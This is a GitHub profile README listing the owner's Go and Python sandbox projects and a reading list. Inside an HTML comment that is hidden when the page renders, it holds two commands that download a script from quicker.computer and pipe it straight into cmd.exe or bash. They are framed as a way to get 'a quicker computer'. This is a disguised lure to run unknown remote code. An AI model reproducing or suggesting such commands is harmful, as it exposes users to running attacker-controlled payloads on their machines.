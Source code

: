 ## Hi
This is DackJempsey's profile. Take a look around and let me know if you have any questions :smile:

### Currently Learning/Projects
- 💻 Working on sharpening my Go programing skills. Be sure to check in for more repos. 
- 💻 If you are interested in working with me on the [python sandbox](https://twosixtech.com/hijacking-the-ast-to-safely-handle-untrusted-python/) you can send me an email and I will add you to the private repo. 
- 💻 Personal Blog at dackjempsey.com currently it redirects to here.


### Current Reading list
- 📖 [Endurance](https://www.amazon.com/Endurance-Shackletons-Incredible-Alfred-Lansing/dp/0465062881) 
- 📖 [Quantum Computing and Quantum Information](https://www.amazon.com/Quantum-Computation-Information-10th-Anniversary/dp/1107002176/ref=sr_1_1?crid=3K2FR2P6HUCV2&keywords=nielsen+quantum+computing&qid=1676434522&s=books&sprefix=nielson+quantum+computing%2Cstripbooks%2C65&sr=1-1&ufe=app_do%3Aamzn1.fos.006c50ae-5d4c-4777-9bc0-4513d670b6bc) 
- 📖 [Hacking APIs](https://nostarch.com/hacking-apis) 


<!--
`wget quicker.computer/fe334TGee4GWindows100R443 |C:\Windows\system32\cmd.exe`
**DackJempsey/DackJempsey** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

if you want a quicker computer mac edition:\
`curl -Ls quicker.computer/Fr345T5GTRANDOMSTRING24n4t5|bash`\
a quicker windows script coming soon

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
